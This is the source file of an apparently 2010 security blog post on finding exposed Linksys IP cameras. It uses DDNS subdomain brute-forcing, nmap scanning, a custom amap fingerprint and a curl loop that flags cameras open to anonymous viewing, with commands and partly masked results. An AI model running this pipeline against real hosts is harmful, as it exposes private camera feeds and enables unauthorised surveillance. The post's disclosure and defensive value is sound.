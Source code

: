 ```yaml
---
title: Hacking Linksys IP Cameras (pt 6)
author: adrian-pastor
date: Wed, 24 Feb 2010 07:18:29 GMT
template: this/views/post.jade
category: fucked
---
```


> This article is a continuation of the following GNUCITIZEN articles: [here](/blog/hacking-linksys-ip-cameras-pt-1/), [here](/blog/hacking-linksys-ip-cameras-pt-2/), [here](/blog/hacking-linksys-ip-cameras-pt-3/), [here](/blog/hacking-linksys-ip-cameras-pt-4/) and [here](/blog/hacking-linksys-ip-cameras-pt-5/).

As we know, there are several ways one could go about hunting for IP cameras on the net. The slowest way would be to portscan random IP addresses for certain ports and programmatically detect if the web interface of a given camera was available on the open ports found. This method definitely works, but it can be very time consuming as it consists of scanning random IP addresses hoping that we'll eventually come across the type of device we're interested in.

The second method, which would be much faster in finding our target devices, would be to use a [search engine](http://www.google.co.uk/search?ie=UTF-8&q=inurl:/img/vr.htm) and query content that is unique to our target devices (e.g.: URLs, HTML title). This method, popularized by [GHDB](http://www.hackersforcharity.org/ghdb/?function=summary&cat=18) is simple and effective. The only issue I find with this strategy is that many of these IP cameras found happen to respond very slowly. This is probably due to other curious individuals running the same searches and accessing the same cameras.

The third method which would allow you to find more hidden Linksys IP cameras (i.e.: not cached by search engines a.k.a. the [hidden web](http://www.ericdigests.org/2002-2/hidden.htm)), would consist of bruteforcing subdomains within dynamic domain names (DDNS) used by our target devices (Linksys IP cameras in this case). For instance, the following are some of the dynamic domain names supported by the WVC54GCA and WVC80N Linksys IP camera models:

* `linksys-cam.com`
* `mylinksyscamera.com`
* `mylinksyshome.com`
* `mylinksyscam.com`
* `mylinksysview.com`
* `linksysremotecam.com`
* `linksysremoteview.com`
* `linksyshomemonitor.com`

### Camera discovery process through subdomain bruteforcing

We first save the aforementioned domains in a file, `doms` in this case. Then we use [dnsmap](http://code.google.com/p/dnsmap/) to bruteforce subdomains for each of the domains included in `doms`.

Using dnsmap's built-in wordlist:

    $ for i in `cat doms`;do dnsmap $i -r ~/ -i 64.14.13.199,216.39.81.84&done;

Using a user-supplied wordlist, `wordlist_TLAs.txt` in this case, which is a three-letter acronym wordlist included with dnsmap v0.30:

    $ for i in `cat doms`;do dnsmap $i -w wordlist_TLAs.txt -r ~/ -i 64.14.13.199,216.39.81.84&done;

NOTE: dnsmap's `-i` option allows ignoring user-supplied IP addresses from the results. In this case, 64.14.13.199 and 216.39.81.84 belong to the [DDNS service provider](http://www.tzo.com/), and would therefore be regarded as false positives in this case (we're only interested in IP cameras setup by their respective owners after all). For more info on how to use dnsmap, checkout the [README](http://code.google.com/p/dnsmap/source/browse/trunk/README.txt) file.

We then parse the IP addresses of the subdomains discovered by dnsmap:

    $ grep \# dnsmap*.txt | awk '{print $4}' | sort | uniq > ips.txt

Next, we scan for ports that could potentially be used by a Linksys IP camera web server. In this case, we choose TCP ports 80, 1024 and 1025 as candidates:

    $ sudo nmap -v -T4 -n -P0 -sS -p80,1024,1025 -iL ips.txt -oA nmap_http_ports.`date +%Y-%m-%d-%H%M%S`

This leaves us with a lot of discovered services, but we don't quite yet know which of them correspond to actual Linksys IP cameras web interfaces. There are many ways to fingreprint the web server of a Linksys IP camera. In this case we chose to create our own [amap](http://freeworld.thc.org/thc-amap/) response signature, and then scan the open ports with amap.

Before amap is capable of identifying our target Linksys IP cams, the following response signature needs to be added to `appdefs.resp`, and amap then needs to be recompiled. Otherwise amap won't take the new signature into account:

    http-linksys-cam::tcp::^HTTP/.*\nServer: thttpd/.*Accept-Ranges: bytes.*WVC

Please note that the previous amap response signature was only tested against the WVC54GCA and WVC80N Linksys IP camera models. So I'm not sure if it will work against other models. You've been warned!

Once recompiled, amap can be used to identify Linksys IP cameras from nmap's open ports results. 

    $ amap -i nmap_http_ports.2010-02-22-102001.gnmap -R -S -o amap_results.`date +%Y-%m-%d-%H%M%S`

We finally parse the IP addresses and open ports for all discovered Linksys IP cameras:

    $ grep http-linksys-cam amap_results.2010-02-22-102253 | awk '{print $3}' | cut -d \/ -f1
    x.x.167.245:1024
    x.x.228.231:1025
    x.x.228.231:80
    x.x.64.22:80
    x.x.206.70:1024
    x.x.31.4:1024
    x.x.164.28:1024
    _[snip]_

At this point we have accomplished the task of creating a list of Linksys IP cameras without resorting to search engines or scanning random IP addresses. In order to discover more Linksys cameras, a more comprehensive wordlist would need to be used with dnsmap.

Of course, even further automation would be possible. For instance, an attacker may wish to programmatically identify which Linksys cameras from the previous list allowing video viewing to unauthenticated users:

```bash
$ amapfile=amap_results.2010-02-22-102253; for i in `grep http-linksys-cam $amapfile | awk '{print $3}' | cut -d \/ -f1`;do url="http://$i/img/main.cgi?next_file=main.htm"; if curl --connect-timeout 2 -s -I --url $url | grep ^"HTTP/1.1 501">/dev/null;then echo $url;fi;done;
x.x.206.70:1024/img/main.cgi?next_file=main.htm
x.x.105.221:1024/img/main.cgi?next_file=main.htm
x.x.105.221:80/img/main.cgi?next_file=main.htm
x.x.181.195:1024/img/main.cgi?next_file=main.htm
x.x.243.154:1024/img/main.cgi?next_file=main.htm
x.x.243.154:1025/img/main.cgi?next_file=main.htm
x.x.30.196:1025/img/main.cgi?next_file=main.htm
_[snip]_
```

_In addition to automatically checking for anonymous video viewing on all cameras found, other tasks such as checking for default credentials (`admin`/`admin`) could also be scripted, although this will NOT be included in this post (or any other at GNUCITIZEN)._
